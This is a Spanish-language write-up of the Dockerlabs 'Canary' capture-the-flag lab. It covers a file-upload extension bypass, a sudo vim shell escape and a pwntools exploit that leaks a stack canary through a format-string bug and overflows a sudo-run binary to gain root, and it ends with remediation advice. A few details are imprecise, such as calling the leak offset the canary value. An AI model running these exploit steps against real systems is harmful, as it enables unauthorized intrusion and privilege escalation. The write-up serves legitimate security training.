# Canary - Dockerlabs Write-Up

## Resumen Ejecutivo

El laboratorio **Canary** es un ejercicio de seguridad avanzado que simula un ambiente vulnerable donde el atacante explota múltiples capas de defensa para obtener acceso de administrador. El laboratorio integra vulnerabilidades clásicas (como upload de archivos y escalada de privilegios) con protecciones modernas (como Stack Canary) y técnicas sofisticadas de explotación. El objetivo final es demostrar cómo los atacantes pueden eludir mecanismos de seguridad mediante análisis binario, identificación de vulnerabilidades de desbordamiento de búfer y bypass de protecciones implementadas en nivel del sistema operativo.

---

## 1. Reconocimiento Inicial

### 1.1 Escaneo de Puertos

El laboratorio comienza con un escaneo exhaustivo de puertos que revela únicamente el puerto 80 (HTTP) activo en el sistema objetivo:



### 1.2 Enumeración de Directorios

Posterior al escaneo inicial, se utiliza **gobuster** para enumerar directorios y archivos expuestos en el servicio web:



---

## 2. Explotación Inicial

### 2.1 Identificación del Servicio Web

Al acceder al servicio HTTP, se presenta una página con la indicación "sube tu archivo", sugeriendo la presencia de funcionalidad de carga de archivos:



### 2.2 Interfaz de Carga de Archivos

Se localiza una interfaz que permite la carga de archivos al servidor:



### 2.3 Vulnerabilidad: Bypass de Validación de Extensiones de Archivo

Se intenta cargar un script de shell reversa en PHP, pero el servidor rechaza la extensión `.php`:



Se prueba con la extensión `.phtml`, que es ejecutada por el servidor PHP y resulta ser aceptada:



### 2.4 Obtención de Shell Inversa

Tras validar la carga, se envía un script PHP especializado bajo la extensión `.phtml`, obteniéndose acceso de shell como el usuario `www-data`:



---

## 3. Escalada de Privilegios: Primera Etapa (www-data → jerry)

### 3.1 Análisis de Permisos sudo

Se verifica qué comandos pueden ejecutarse sin contraseña mediante `sudo -l`:



Se observa que es posible ejecutar **vim** sin proporcionar contraseña.

### 3.2 Identificación de Usuarios del Sistema

Se enumera los usuarios del sistema que poseen permisos para ejecutar shell:



Se identifica al usuario **jerry** como candidato para movimiento lateral (lateral movement).

### 3.3 Vulnerabilidad: Explotación de vim

Vim permite la ejecución de comandos del sistema mediante el modo ex. Se aprovecha esto para ejecutar una shell como **jerry** utilizando permisos sudo:

```bash
sudo -u jerry /usr/bin/vim -c ':! /bin/bash'
```





### 3.4 Estabilización de Shell

La shell obtenida es limitada, por lo que se realiza una estabilización utilizando técnicas TTY:



---

## 4. Análisis de Binarios Vulnerables

### 4.1 Permisos sudo del Usuario jerry

Se verifica nuevamente los permisos sudo disponibles para jerry:



Se identifican dos binarios ejecutables:
- **suma** - Aparentemente un programa de suma de números
- **command_exec.py** - Script Python con funcionalidad de ejecución de comandos

### 4.2 Análisis del Binario "suma"

Se analiza el contenido del binario mediante el comando `strings`:


La ejecución inicial del binario muestra una interfaz que solicita entrada del usuario:



### 4.3 Análisis del Script command_exec.py

Se examina el script Python y se descubre que contiene funcionalidad para ejecutar comandos si un archivo `flag.txt` contiene el valor `ACTIVE`:


---

## 5. Análisis Binario Avanzado

### 5.1 Ingeniería Inversa del Binario suma

El binario se transfiere a la máquina atacante para análisis detallado mediante **Ghidra**:



Se determina que el binario ejecuta un formulario de suma, pero se sospecha que contiene funcionalidad adicional no aparente en la ejecución normal.

### 5.2 Identificación de la Función set_flag

Mediante análisis exhaustivo en Ghidra, se localiza una función **set_flag** que modifica el contenido del archivo `flag.txt`:



Esta función es la clave para activar la funcionalidad de `command_exec.py` y obtener ejecución de comandos como root.

---

## 6. Vulnerabilidad: Buffer Overflow Protegida con Stack Canary

### 6.1 Localización de la Función set_flag

Se obtiene la dirección de memoria de la función utilizando `objdump`:



### 6.2 Análisis con Depurador

Se analiza el binario con GDB:



### 6.3 Mecanismo de Protección: Stack Canary

Tras intentar explotación tradicional de buffer overflow, se identifica una protección de **canario de pila** (Stack Canary) que valida la integridad del frame de la pila. Este mecanismo previene el desbordamiento simple.

### 6.4 Vulnerabilidad: Format String

Se descubre que el campo de nombre del usuario es procesado por `printf` sin validación, creando una vulnerabilidad de **formato de cadena** (Format String):

```c
printf(nombre_usuario);  // Vulnerable
```

Esta vulnerabilidad permite leer datos del stack utilizando especificadores como `%p`.

---

## 7. Bypass del Stack Canary mediante Format String

### 7.1 Exfiltración del Valor del Canario

Se utiliza la vulnerabilidad de Format String para extraer el valor del canario de la pila. Un script de fuzzing intenta múltiples posiciones del stack hasta localizar el valor (el cual se diferencia ya que es de los pocos que terminan en 00):



El valor del canario se obtiene en formato hexadecimal (en este caso, `69`).

### 7.2 Construcción del Exploit

Se calcula la distribución de memoria:
- **264 bytes**: Buffer vulnerable (antes del canario)
- **8 bytes**: El canario
- **8 bytes**: Distancia final hasta el Return Adress (RIP)

Se elabora un script Python que automatiza el proceso:

```bash
#!/usr/bin/python3

from pwn import *

def main():

    def start():

        if args.GDB:
            return gdb.debug(filename, gdbscript=gdbscript)
        elif args.REMOTE:
            return remote(sys.argv[1], sys.argv[2])
        else:
            return process(["sudo", filename])

    filename = "/opt/suma"

    elf = context.binary = ELF(filename, checksec=False)
    context.log_level = "error"

    gdbscript = """
    """


    canary_offset = 264
    rip_offset = 8


    p = start()

    p.sendlineafter(b':', b'%69$p')

    p.recvuntil(b'Hola, ')
    canary = int(p.recvline().strip(), 16)


    payload = flat(

            b'A'*canary_offset,
            canary,
            b'A'*rip_offset,
            elf.functions.set_flag
    )


    p.sendlineafter(b':', payload)

    print(p.recvall())

    p.close()


if __name__ == '__main__':

    main()
```

**Crédito**: Script obtenido de ASMODAX.

### 7.3 Ejecución del Exploit

Se ejecuta el script de explotación:



---

## 8. Escalada de Privilegios Final: Ejecución como root

### 8.1 Transferencia del Script

El script se transfiere a través de un servidor HTTP:

```bash
python3 -m http.server 8000
```

Y se descarga en la máquina objetivo con wget:



### 8.2 Instalación de Dependencias

Se instala la librería **pwntools** necesaria para ejecutar el script:



### 8.3 Ejecución Final y Obtención de root

Se ejecuta el script modificando el archivo `flag.txt`, activando la funcionalidad de `command_exec.py`. Finalmente, se obtiene shell como root:



---

## 9. Recomendaciones de Seguridad

### 9.1 Vulnerabilidad: Bypass de Validación de Extensiones de Archivo

**Descripción**: El servidor permitió la carga de archivos ejecutables mediante bypass de validación de extensiones (.php rechazado, pero .phtml aceptado).

**Recomendación**: 
- Implementar validación whitelist de extensiones de archivo en servidor y cliente
- Almacenar archivos fuera del directorio web o en partición no ejecutable
- Configurar el servidor web para no ejecutar scripts en directorios de carga (disable_functions, remove_handler en Apache)
- Renombrar archivos cargados con sufijo seguro y generar nombres aleatorios
- Implementar validación de tipo MIME y verificación de firma de archivo (magic bytes)
- Establecer permisos restrictivos (chmod 644) en archivos cargados
- Ejecutar validaciones en lado del servidor, nunca confiar únicamente en validación del lado cliente

### 9.2 Vulnerabilidad: Uso Incorrecto de Permisos sudo

**Descripción**: El usuario `www-data` podía ejecutar `vim` sin contraseña, permitiendo escalada de privilegios a través de comandos embebidos en vim.

**Recomendación**:
- Nunca permitir la ejecución de editores de texto o shells interactivos mediante sudo sin contraseña
- Implementar una whitelist de comandos específicos en sudoers, no binarios completos
- Usar `sudo -u usuario /ruta/comando --argumentos-específicos` si se requiere cambio de usuario
- Configurar audit logging para todas las ejecuciones sudo mediante `auditd` o `/var/log/auth.log`
- Considerar usar herramientas alternativas como `runuser` con restricciones más granulares
- Revisar periódicamente la configuración de sudoers mediante `visudo -c`
- Implementar timeout para sesiones sudo

### 9.3 Vulnerabilidad: Format String en Binario

**Descripción**: El binario `suma` utiliza `printf` con entrada de usuario sin validar, permitiendo lectura de memoria mediante especificadores de formato.

**Recomendación**:
- Utilizar strings literales en lugar de argumentos de formato: `printf("%s", buffer);` en lugar de `printf(buffer);`
- Compilar con flags de seguridad: `-Wformat -Wformat-security -Werror=format-security`
- Implementar validación estricta de entrada de usuario
- Usar funciones seguras de impresión con especificadores explícitos
- Realizar auditoría de código para identificar patrones vulnerables
- Implementar protecciones en tiempo de ejecución (ASLR, DEP/NX)
- Usar herramientas de análisis estático como `clang-analyzer` y `cppcheck`

### 9.4 Vulnerabilidad: Stack Canary Bypass mediante Format String

**Descripción**: Aunque Stack Canary proporciona protección contra buffer overflow, fue eludido mediante la exfiltración del valor del canario a través de vulnerabilidades de Format String.

**Recomendación**:
- Implementar múltiples defensas en profundidad: Stack Canary + ASLR + DEP/NX + CFI
- Usar valores de canario más complejos basados en criptografía (no predecibles)
- Compilar con `-fstack-protector-all` para máxima cobertura de funciones
- Implementar Control Flow Guard (CFG) en Windows o Shadow Stack en Linux
- Realizar fuzzing y testing de seguridad regularmente mediante herramientas como AFL y libFuzzer
- Considerar usar lenguajes con memory safety (Rust, Go) para código crítico
- Implementar monitoreo de anomalías de memoria en tiempo de ejecución con ASAN/MSAN
- Usar herramientas como Valgrind para detectar vulnerabilidades de memoria en desarrollo

### 9.5 Vulnerabilidad: Buffer Overflow en Binario Suid

**Descripción**: El binario `suma` es ejecutable como root a través de permisos sudo, permitiendo ejecución de código arbitrario con privilegios elevados mediante explotación de buffer overflow.

**Recomendación**:
- Eliminar archivos SUID innecesarios o reemplazar con soluciones alternativas
- Utilizar capabilities de Linux (`CAP_NET_BIND_SERVICE`, etc.) en lugar de binarios SUID
- Compilar código con protecciones contra buffer overflow (evitar `-fno-stack-protector`)
- Implementar Address Space Layout Randomization (ASLR) a nivel del sistema
- Usar Data Execution Prevention (DEP/NX bit)
- Realizar análisis de seguridad estática de código antes de compilación con herramientas como `Clang Static Analyzer`
- Limitar el acceso a binarios potencialmente vulnerables mediante permisos de archivo y SELinux/AppArmor
- Usar `-fPIE` para compilar binarios independientes de posición (PIE - Position Independent Executable)

### 9.6 Vulnerabilidad: Función Hidden sin Control de Acceso

**Descripción**: La función `set_flag` en el binario era una funcionalidad "oculta" no documentada que permite modificar archivos críticos sin autenticación.

**Recomendación**:
- Implementar control de acceso basado en roles (RBAC) para funciones sensibles
- Eliminar funciones "ocultas" o no documentadas en código de producción
- Implementar validación de permisos para toda operación de escritura de archivo
- Usar logs de auditoría para rastrear cambios en archivos críticos mediante `auditd`
- Implementar integridad de archivos mediante checksums SHA-256 o firmas digitales
- Considerar usar SELinux o AppArmor para restricciones de acceso a nivel del sistema
- Realizar revisiones de código (code review) antes de despliegue en producción
- Implementar acceso separado de lectura y escritura (principio de segregación de deberes)

### 9.7 Vulnerabilidad: Configuración Insegura de Ejecución de Comandos

**Descripción**: El archivo `command_exec.py` permitía ejecución de comandos arbitrarios basada en un archivo flag con permisos modificables.

**Recomendación**:
- Nunca permitir ejecución de comandos arbitrarios en código de producción
- Si es necesario ejecutar comandos, utilizar lista blanca estricta de comandos permitidos
- Implementar sandboxing o containerización (Docker, Firejail) para limitar el impacto de ejecución de código
- Usar `subprocess.run()` con `shell=False` y lista explícita de argumentos en Python
- Validar y sanitizar todas las entradas de usuario antes de procesarlas mediante expresiones regulares
- Implementar logging y auditoría de todos los comandos ejecutados
- Considerar usar APIs seguras en lugar de ejecución de comandos del shell
- Mantener permisos mínimos necesarios para el script (principio de least privilege)
- Implementar timeout para evitar comandos que consuman recursos infinitamente
- Ejecutar procesos en usuarios no-privilegiados dedicados

---

## Conclusión

El laboratorio Canary demuestra la importancia de múltiples capas de seguridad y cómo las vulnerabilidades pueden encadenarse para comprometer completamente un sistema. La combinación de validación insuficiente, permisos incorrectos y protecciones incompletas permitió al atacante progresar desde acceso limitado como `www-data` hasta control total como `root`. La implementación de las recomendaciones anteriores crearía un ambiente significativamente más seguro y resistente a este tipo de ataques.
